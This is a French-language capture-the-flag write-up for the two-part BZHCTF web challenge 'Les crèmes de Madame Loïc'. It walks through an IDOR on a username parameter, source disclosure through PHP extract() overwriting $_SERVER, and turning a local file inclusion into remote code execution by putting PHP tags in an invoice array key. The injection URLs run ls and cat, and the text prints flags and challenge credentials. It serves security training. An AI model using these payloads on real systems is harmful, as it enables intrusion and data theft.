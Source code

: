 # Les crèmes de Madame Loïc 1-2

### Description

Madame Loîc se modernise et a décidé de vendre ses produits sur un site internet, en passant par une solution personnelle, en effet, elle n'a pas confiance envers KrestaChop (célèbre CMS permettant la vente sur internet).

En tant que petit-fils très investi, elle vous demande de tester son application, car elle connaît vos compétences en cybersécurité (vous l'avez aidé à brancher son imprimante en réseau).

Pourriez-vous trouver une/des vulnérabilité(s) vous permettant d'accéder à sa recette secrète ?

`https://les-cremes-de-madame-loic.ctf.bzh:21000/`

### Solution

On arrive sur l'application, et nous n'avons pas d'autres choix que de nous créer un compte, on utilise donc le fameux "test/test".

Lorsqu'on arrive sur l'application, on remarque que l'on peut acheter des produits :

![alt](images/1.png)

Ici, si l'on tente d'acheter la recette secrète, l'application nous répond ceci :

`Vous ne pouvez pas acheter cet article, il est réservé à l'utilisateur mamie.`

On tente donc d'acheter un autre article, on remarque que l'on peut visualiser notre panier :

![alt](images/2.png)

Si l'on intercepte les requêtes lorsque l'on requête notre panier, on remarque celle-ci:

![alt](images/3.png)

Or on a vu que la recette secrète était réservée à l'utilisateur "mamie", on peut donc tenter de rejouer la requête en changeant le paramètre GET "name" de "test" à "mamie":

![alt](images/4.png)

On a donc bien une IDOR sur le username, et on récupère le path d'un fichier que l'on va aller récupérer :
```
La recette secrete est composee de :
- Lait
- Un maximum de BZHCTF{m4m13_n4_p4s_4ppr1s_d3_c3s_3err3urs!!}
- Caramel

Il faudra aussi penser a mettre des images pour les produits et a gerer la migration de base de donnees, l'implémentation a commencé ici : /mamiesecret

Pour se faire, n'oublie pas d'utiliser les identifiants suivants :

- mamiemanager / sxEpnMggi8LtD1y198Iy
```

### Flag

BZHCTF{m4m13_n4_p4s_4ppr1s_d3_c3s_3err3urs!!}



# Les crèmes de Madame Loïc 2-2

### Description

Parfait ! Vous avez prouvé à mamie que son application n'était pas sécurisée !

Malheureusement, un de ses concurrents a réussi à faire la même crème alors qu'elle est la seule à connaître la recette secrète, il y aurait-il d'autres vulnérabilités permettant de compromettre totalement le serveur ?

### Solution

Pour cette deuxième partie de challenge, on a donc obtenu des credentials ainsi qu'un endpoint caché permettant d'administrer le site internet. On arrive donc sur un formulaire mais celui-ci ne semble pas fonctionner. Si l'on s'intéress au code HTML, on remarque ce commentaire :
`<!-- Mettre le paramètre "source" en GET permettant de debugger l'application et comprendre pourquoi le javascript ne fonctionne pas. -->`

On va donc passer ce paramètre source pour récupérer le code PHP :
```php
<?php
session_start();
if(!isset($_SESSION["name"]) && $_SESSION["name"] !== "mamiemanager")
{
    header("Location: /");
    die();
}

extract($_GET);

if(isset($page)) include("pages/".$page);
else include("pages/factures.php");

if(isset($source))
{
    die(show_source($_SERVER["SCRIPT_FILENAME"]));
}
?>
```

Ici, il y a une vulnérabilité assez évident, c'est la Local File Inclusion sur le paramètre "page", malheureusement, elle ne sera pas utile pour l'instant.

Il y a ici une autre vulnérabilité induit par la fonction extract(). En effet, cette fonction va attribuer la clé d'un tableau à une valeur, exemple :

```php
<?php
$arr = ["player"=>"worty"];
extract($arr);
echo $player;
//worty
>
```

Sauf qu'ici, cette fonction est appelée sur une variable controlée par l'utilisateur, il est donc possible pour celui-ci d'aller overwrite des variables de l'application, mais aussi de PHP ! Il est donc possible ici d'aller ré-écrire la variable $_SERVER["SCRIPT_FILENAME"], permettant d'obtenir le code PHP de tous les fichiers que l'on souhaite :

```
http://localhost:21007/mamiesecret?source&_SERVER[SCRIPT_FILENAME]=pages/factures.php
```

![alt](images/5.png)

Ici, on remarque que si les variables $montants et $client sont définies, on appelle une fonction qui nous permet de créer une facture. Pour que cela soit le cas, il suffit, lorsque l'on tape sur /mamiesecret, de passer deux paramètres GET "client" et "montants" (car on utilise la fonction extract qui va donc aller définir ces variables).

Il nous reste un dernier fichier à leak :

```
http://localhost:21007/mamiesecret?source&_SERVER[SCRIPT_FILENAME]=../../functions/mamie_functions.php
```

![alt](images/6.png)

Ici, il va falloir analyser le code PHP pour comprendre ce que celui-ci fait :
- Il utilise la fonction func_get_args() qui permet de récupérer les paramètres qui sont passés à la fonction.
- Il récupère le(s) montant(s) de(s) article(s) acheté(s) dans la première entrée de func_get_args()
- Il récupère le nom du client dans la deuxième entrée de func_get_args()
- On vérifie que le prix de chaque entrée de la variable $montants est bien un int.
- On créé ensuite une facture avec le nom du client, ainsi que toutes les entrées dans la variable $montants

On en déduit donc deux choses :
- La variable $client doit être une string
- La variable $montants doit être un array

On peut donc tenter de créer une facture :

```
http://localhost:21007/mamiesecret?client=Worty&montants[croissant]=5
```

Ici, en passant `montants[croissant]=5`, cela va permettre de créer un tableau associatif en PHP `["croissant" => 5]`.

On peut aller vérifier que notre facture a bien été créée :

![alt](images/7.png)

Ici il y a une vulnérabilité qui va permettre d'exploiter la LFI pour la transformer en RCE. En effet, dans la variable $montants, on peut controler la valeur de la clé du tableau associatif créé, on peut donc tenter de passer ici une balise PHP et ensuite aller inclure notre facture avec la LFI :

```
http://localhost:21007/mamiesecret?client=Worty&montants[%3C?php%20phpinfo();%20?%3E]=5
```

![alt](images/8.png)

On a donc ici une RCE que l'on va exploiter pour aller liste les fichiers à la racine :
```
http://localhost:21007/mamiesecret?client=Worty&montants[%3C?php%20var_dump(shell_exec(%27ls%20/%27));%20?%3E]=5
```

```
Nous, l'entreprise Loik Corp, nous adressons cette facture à vous, Worty en vue de votre commande passée sur notre site. Numéro de téléphone de l'entreprise: 0102030405 Votre commande est la suivante: - string(134) "bin boot dev etc home lib lib64 media mnt opt proc real_very_very_secret_recette_of_my_cream.secret root run sbin srv sys tmp usr var " : 5 Le tout pour un prix total de: 5 Cordialement, L'entreprise Loik Corp
SalesLoïc

    Secret space (current)

Créer une facture
Nom de l'article
Nombre acheté
Nom du client
```

On obtient donc le nom du fichier qui contient la vraie recette secrète, il nous suffit donc d'aller l'afficher avec la commande cat :

```
http://localhost:21007/mamiesecret?client=Worty&montants[%3C?php%20var_dump(shell_exec(%27cat%20/real_very_very_secret_recette_of_my_cream.secret%27));%20?%3E]=5
```

```
Nous, l'entreprise Loik Corp, nous adressons cette facture à vous, Worty en vue de votre commande passée sur notre site. Numéro de téléphone de l'entreprise: 0102030405 Votre commande est la suivante: - string(64) "BZHCTF{m4m13_4ur41t_du_3ng4g3r_un3_p3rs0nn3_plus_comp3t3nt3s!!} " : 5 Le tout pour un prix total de: 5 Cordialement, L'entreprise Loik Corp 
```

### Flag

BZHCTF{m4m13_4ur41t_du_3ng4g3r_un3_p3rs0nn3_plus_comp3t3nt3s!!}